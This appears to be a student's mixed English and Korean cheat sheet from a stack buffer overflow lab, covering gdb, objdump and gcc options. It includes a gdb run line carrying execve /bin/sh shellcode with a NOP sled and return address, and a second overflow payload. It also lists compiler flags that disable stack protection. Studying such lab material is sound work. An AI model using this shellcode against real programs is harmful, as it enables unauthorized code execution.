 


env -i PWD="/home/seed/stack_addresses" SHELL="/bin/bash" SHLVL=0 /home/seed/stack_addresses/ans_check5 <param>

env -i PWD="/home/seed/labs/lab3/stack_addresses" SHELL="/bin/bash" SHLVL=0 /home/seed/523/labs/lab3/stack_addresses/ans_check5 <param>
unset env LINES
unset env COLUMNS
break 
run $( python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80' + '\x90'*24 + '\x6c\xfd\xff\xbf'")


* A sheet for later use


gcc option
-fno-stack-protector : disables stack protection
-g : default debug information
-o : set output file name
-z execstack : marks the stack as executable


objdump
objdump -D ans_check5 | grep -B 1 exit

./ans_check5 $(python -c "print ‘\xAA’*N + ‘\xef\xbe\xad\xde’")

gdb command
list <line number> : Show the code
break <line nuber> :
run <param> : keep executing
c : after breaking, keep executing
dissass <function name> : Shows the disassembled code and it's memory address
 
ex)
 
 x/s ans_buf
 x/xw &ans_flag
 x/32xw &esp

 x/s <address> or <address of variable> : Shows the string of the pointing address
x/xw <address> or <address of variable> : Shows the content of the address
해당 주소 내용을 문자로 보고 싶다.
16진수로 보고 싶다. 

 x 명령 
 옵션 
 x 는 16진수
 w 는 4 byte 씩 보여주고
 x/32xw 에서 32는 
 해당 주소부터 32개를 더 보여 달라는 의미


 

# grep -B 1 exit
-B 1 : exit 찾고 그것만 보여주지 말고 그 전에 한줄도 보여주란 옵션

# grep -A 1 exit
-A 1 : exit 찾고 그것만 보여주지 말고 그 에 한줄도 보여주란 옵션


# gcc -g -z execstack -fno-stack-protector ans_check5.c -o ans_check5
-z execstack : make stack executable



# gdb 옵션
-q : 시작시 설명문구 없이 시작

# break <line number> or <function name>
break : 중단점 걸기

# i b
break information 보기

# i r esp
i r : information register
  i r esp : esp 정보 보여줘

# x/32xw $esp
x : 메모리 조사하는 옵션  
o : 8진법으로 보여줌
x : 16진법으로 보여줌
u : 10진법으로 보여줌
t : 2진법으로 보여줌

b : 1 byte 단위로 보여줌(byte)
h : 2 byte 단위로 보여줌(half word)
w: 4 byte 단위로 보여줌(word) - 난 2byte로 알고 있지만 여기선 4바이트로 쓰이나 보다....
g : 8 byte 단위로 보여줌(giant)

i : 역어셈블된 명령어의 명령 메모리를 볼수 있음
c : ASCII 표의 바이트를 자동으로 볼 수 있다.
s : 문자 데이터의 전체 문자열을 보여준다.

 
 
  
# gdb 
(gdb) set args “--help”
(gdb) break __libc_start_main
(gdb) run
(gdb) frame
(gdb) bt
(gdb) info frame
(gdb) info registers
(gdb) x /16xw $esp

gdb date
(gdb) set args “--version”
(gdb) break __libc_start_main
(gdb) run
(gdb) maintenance info sections
note the start address of the .rodata section
(gdb) x/20s {.rodata address}
note the start address of the string “GNU coreutils” as {start}
(gdb) set *{start} = 0x20554c42
(gdb) c
